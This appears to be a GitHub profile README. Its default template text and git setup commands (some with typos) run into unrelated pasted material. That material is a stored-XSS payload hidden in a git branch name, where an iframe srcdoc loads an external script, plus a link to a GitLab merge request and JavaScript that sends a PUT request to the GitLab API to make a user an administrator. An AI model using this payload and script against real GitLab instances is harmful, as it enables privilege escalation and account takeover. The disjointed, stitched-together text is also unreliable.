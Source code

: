 - 👋 Hi, I’m @rio-s-molana
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
rio-s-molana/rio-s-molana is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
echo "# rio-s-molana" >> README.md 
git init 
git add README.md 
git commit -m "first commit" 
git branch -M main 
git remote add Origin https://github.com/rio-s- molana/rio-s-molana.git
 git push -u asal main
	
<iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>, misalnya,git push origin master:"'><iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>"

https://gitlab.com/yvvdwf/store-xss-merge-request/-/merge_requests/1
var user_id=5212593;
console.log(`Set user ${user_id} to admin`);

var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = console.log;
xhttp.open("PUT", `/api/v4/users/${user_id}?admin=true`, true);
xhttp.send();
